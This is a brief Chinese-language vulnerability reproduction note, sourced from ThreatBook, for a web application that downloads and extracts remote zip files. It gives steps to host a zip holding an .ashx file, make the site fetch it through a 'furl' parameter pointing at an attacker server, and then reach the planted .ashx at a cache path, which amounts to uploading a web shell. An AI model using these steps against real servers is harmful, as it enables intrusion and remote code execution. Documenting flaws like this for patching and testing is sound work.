

来源：微步 公开信息

漏洞信息：

https://x.threatbook.com/v5/vul/180be5ace0a318c29e8bad110a53dfc3212d4b59c19682bd66bbaee4866f1562603ebef4f1ba2105d79705f38bb6e9c2

 

详情信息：

需要提前准备 2 个文件，一个 ashx 和一个 txt 文件

将这两个文件打包为 2.zip，然后起一个 http 服务提供给网站远程下载

然后访问?furl=http://你的公网服务器/2.zip

随后即可发现网站对该 zip 进行了下载和解压，这里可以预览 txt 格式文件获取 zippath 参

数的值

 

 

 

然后 ashx 文件的地址即为：

http://x.x.x.x/cache/office/x.x.x.x.x/82308141956519700010097_486/2.ashx

 

 

 